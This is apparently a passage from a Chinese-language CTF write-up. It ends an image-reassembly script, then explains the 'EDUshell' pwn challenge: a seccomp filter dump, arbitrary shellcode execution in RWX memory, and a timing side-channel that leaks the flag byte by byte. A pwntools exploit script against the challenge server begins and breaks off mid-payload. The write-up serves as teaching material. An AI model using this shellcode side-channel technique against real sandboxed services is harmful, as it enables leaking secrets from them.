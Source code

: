 ```python
    images = [(os.path.getsize(x),x)  for x in images]
    images = sorted(images)[::-1]
    images = [Image.open(x) for _,x in images]
    images = split(images,11)
    images = [merge(x,1) for x in images]
    images = merge(images,0)
    images.save('flag.jpg')

rearrange_images()
```

最終的圖片:
![](https://i.imgur.com/TqCLXIC.png)


## Pwn

### EDUshell
`load_flag`，會將flag讀到bss段，並設置Seccomp。

![EDUshell_load_flag](https://i.imgur.com/Gpk9DZr.png)

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x00000009  if (A != mmap) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW  
 0010: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x06 0x00 0x00 0x00000000  return KILL
```
Seccomp上完後就就不會有Output了。

`exec`會mmap一塊RWX的memory，會讀完input後jmp上去執行。
![EDUshell_exec](https://i.imgur.com/Nwy9dqu.png)

無回顯、可以執行任意Shellcode。用Side-channel Attack。
把bss上的flag逐一字元抓出來比較，如果對了就讀到Timeout、錯了就直接Crash掉Process。

Exp:
```python
from pwn import 
from string import printable


context.arch = 'amd64'

def OuO(alpha, offset):
    global p 
    p = remote('eofqual.zoolab.org', 10101)

    p.sendlineafter('$ ', 'loadflag')
    payload = asm('''
        mov rax, qword ptr [rbp+0x8] 
        sub rax, 0xFFFFFFFFFFFFD733
        mov cl, byte ptr [rax+{}]
```